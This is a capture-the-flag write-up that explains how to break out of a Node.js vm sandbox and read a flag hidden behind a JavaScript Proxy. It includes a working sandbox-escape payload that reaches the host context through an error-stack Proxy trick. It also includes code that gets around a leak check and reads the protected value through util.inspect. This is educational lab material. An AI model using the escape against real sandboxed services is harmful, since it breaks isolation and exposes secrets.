







Let's take a look at the js scripts we are given:

After looking at these files, it's obvious that we need to get the inner value of `globalThis.storage`.  
But the problem is that the `storage` object is proxied via JS' `Proxy`, which lets us hook some internal function like `[[Get]]` (`object[key]`), `[[Set]]` (`object[key] = value`).  

So let's try to run some code to check what properties global object has:



Seems like nothing useful for us to exploit, but wait... We're in the node's vm, which means we can try to escape to the node's host context

Let's try the most obvious escape: `this.constructor.constructor`:



Hmm... looks like we're still in the same context. Let's take a look at what our global VM context is: 
```js
vm.runInNewContext(`(() => { return ${workerData} })();`, Object.create(null));
```
So you might notice that it's not an empty object passed to VM, but it's the object that has null prototype. This means that the `constructor' object is not in the same context as the host context.

Fortunately, there are tons of ways to exploit node's VM, I'll use this one:

```js
(() => {
    const err = new Error();
    err.name = {
        toString: new Proxy((() => {}), {
            apply(ctx, thisArg, args) {
                throw args.constructor.constructor("return this")()
            }
        })
    };
    try {
        err.stack
    } catch (err) {
        return err
    }
})();
```

This works because `err.stack` calls `name.toString` under the hood, with `args` being an object from the host context.

Let's check which context we are in this time:


Yay, we're in host context now. So now we can start working on the main problem: retrieving `secret` from `storage`.  
However, it's not possible to just get it from the object through the indexer:



It results in a `null' value because it's proxied by the following code:

```js
get: (target, name) => {
    if (name == "secret") {
        return null;
    }

    return target[name];
},
```

Any attempt to retrieve a value from `storage` using the key `secret` will result in `null'.

But there's another handler as well:

```js
getOwnPropertyDescriptor: (target, name) => {
    if (name == "secret") {
        return {
            value: process.env["FLAG"],
            writable: true,
            enumerable: true,
            configurable: true,
        };
    }

    return target[name];
},
```

Let's try to call it with this code:

```js
return JSON.stringify(Object.getOwnPropertyDescriptor(this.storage, `secret`))
```

Oops, seems like there's a check to see if the contents of the flag are leaked:



So let's modify our code a bit:

```js
return [...JSON.stringify(Object.getOwnPropertyDescriptor(this.storage, `secret`))]
```
This will return our string as an array of characters, bypassing the check:



The flag is obviously fake, though, and we need to look in another direction.

Considering that we are working with the `Proxy` object, and it seems that it can't be bypassed with such tricks as 'hooking' the function.  We could look at some debug JS modules, one of them is `util`. Looking at the functions present in this module, one could notice the `inspect()` function which returns a string representation of the object. 

To import modules we need `require` function which we can get from `module` object which fortunately is present in host context, now we can easily build code to get `secret` value:

```js
return [...module.require('util').inspect(this.storage)]
```

And there it is:


The flag is: `cr3{W0vv53Rs_1n5q3c70R_G4dg3T!!1}` 